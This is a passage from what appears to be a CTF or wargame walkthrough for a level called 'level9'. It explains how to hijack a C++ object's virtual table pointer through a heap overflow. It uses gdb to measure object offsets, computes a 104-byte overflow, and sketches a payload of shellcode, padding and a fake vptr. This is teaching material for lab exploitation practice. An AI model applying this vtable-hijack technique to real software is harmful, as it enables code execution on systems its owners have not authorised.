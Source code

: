 When you do: obj2 + obj1
1. Loads obj2->vptr
2. Loads vtable[0]
3. Calls operator+()

If we control vptr, we control what gets called!
Learn More:

📖 Operator Overloading
📖 C++ Operators Reference

5. Calculating Object Offsets
Finding Distances:
bashgdb ./level9
(gdb) break main
(gdb) run test
(gdb) x/20wx obj1
0x804a008: vtable_ptr, value, annotation...

(gdb) x/20wx obj2
0x804a078: vtable_ptr, value, annotation...

# Distance: 0x804a078 - 0x804a008 = 0x70 = 112 bytes
Calculating Overflow:
python# Object 1 layout:
# 0-3:   vptr (4 bytes)
# 4-7:   value (4 bytes)  
# 8-107: annotation (100 bytes)

# Object 2 starts at: obj1 + 112
# obj2's vptr is at: obj1 + 112

# To overflow from annotation to obj2's vptr:
# annotation starts at offset 8
# obj2's vptr at offset 112
# Need to write: 112 - 8 = 104 bytes

payload = shellcode
payload += "A" * (104 - len(shellcode))
payload += fake_vptr_pointing_to_shellcode
Learn More:
